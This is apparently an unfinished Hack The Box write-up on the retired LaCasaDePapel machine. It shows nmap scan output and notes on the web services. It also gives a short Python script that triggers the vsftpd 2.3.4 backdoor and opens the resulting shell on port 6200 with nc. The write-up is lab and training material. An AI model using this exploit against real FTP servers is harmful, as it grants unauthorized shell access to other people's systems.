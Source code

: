 ```yaml
---
layout: post
title: "HTB - LaCasaDePapel"
author: "mrs3c"
categories: Blog
tags: [hackthebox, htb, pen-testing, certificates, cronjob, nodejs, openssl, otp, php, psysh, ssh rsa auth, ssh, vsftpd]
image: lacasa_logo.png
---
```


To fill in later

# HTB retired machines - LaCasaDePapel

## Summary

Fill out later

## 1. discovery - network service scanning - nmap

```bash
# Nmap 7.80 scan initiated Sun Dec  8 21:59:21 2019 as: nmap -sC -sV -Pn -oA nmap/lacasadepapel 10.10.10.131
Nmap scan report for 10.10.10.131
Host is up (0.42s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|   http/1.1
|_  http/1.0
Service Info: OS: Unix
```

## 2. discovery - files and directories - http

 2.1 Navigating to port 80 we find a page which needs an OTP supplied by a QRCode. The page asks us to install Google Authenticator

![2_http](https://mrjak3.github.io/assets/img/htb-lacasadepapel-2-http.png)

 2.2 Scanning the code using Google Authenticator on an Android phone gives us a code but it refuses to work either way. So, maybe its for internal users only. Lets keep this aside and come back later.

## 3. discovery - files and directories - https

 3.1 Browsing to HTTPS shows us an error that we need a client certificate to continue which we don't possess at the moment

![3.0-https](https://mrjak3.github.io/assets/img/htb/LaCasaDePapel/3_https.png)

## 4. initial access - exploit public facing application - vsftp

 4.1 As seen from nmap, vsftp is version 2.3.4. A quick search allows the attacker to discover that the version was backdoored. Lets try to replicate the exploit code.

 4.2 The code just tries a failed login, which triggers the backdoor on port 6200 and then executes commands from it. Lets do that using a small python script:

```bash
import socket
import os
import time

def exploit(ip, port):
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip, port))

    sock.send('USER :)\n')
    sock.send('PASS HTBPASS\n')
    time.sleep(2)
    sock.close()

    os.system("rlwrap nc 10.10.10.131 6200 -v")

exploit("10.10.10.131", 21)
```

 4.3 The code is pretty simple, it just creates a connection to the FTP port, sends in commands and then quiclky connects to the backdoored port at 6200.
 4.4 Running the script:

 ![4.4_vsftp](https://mrjak3.github.io/assets/img/htb/lacasadepapel/4.4-vsftp.png)
